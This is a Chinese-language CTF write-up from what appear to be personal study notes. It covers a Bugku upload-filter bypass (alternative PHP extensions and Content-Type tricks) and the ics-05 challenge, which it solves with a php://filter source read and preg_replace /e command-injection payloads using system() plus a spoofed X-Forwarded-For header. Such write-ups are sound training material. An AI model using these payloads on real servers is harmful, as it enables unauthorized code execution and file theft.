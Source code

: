 ## Web 九月第一周

### bugku求getshell

上传，过滤

- 请求头部的 Content-Type
- 文件后缀
- 请求数据的Content-Type

文件后缀可以尝试：php4，phtml，phtm，phps，php5

修改头Content-Type，改变一个为大写

修改数据的Content-Type：image/jpeg

### 攻防世界ics-05

文件包含，php preg_replace函数执行漏洞

首先找到可以点击的连接，进入之后，一通乱点，看到有传参url：

![1567772900311](../noteimage/1567772900311.png)

参考网上wp，考虑文件包含，使用php伪协议尝试获取源码，构造url：

`http://111.198.29.45:32850/index.php?page=php://filter/read=convert.base64-encode/resouce=index.php`

然后得到源码，之后解码

得到源码：

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}

```

查看preg_replace函数：一个漏洞：

当pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行

构造pyload：/index.php?pat=/123/e&rep=system("find+-iname+flag")&sub=123

并且用burp修改xff头：X-Forwarded-For：127.0.0.1

再构造:index.php?pat=/123/e&rep=system("cd+./s3chahahaDir/flag%26%26ls")&sub=123

```
index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag/flag.php")&sub=123
```

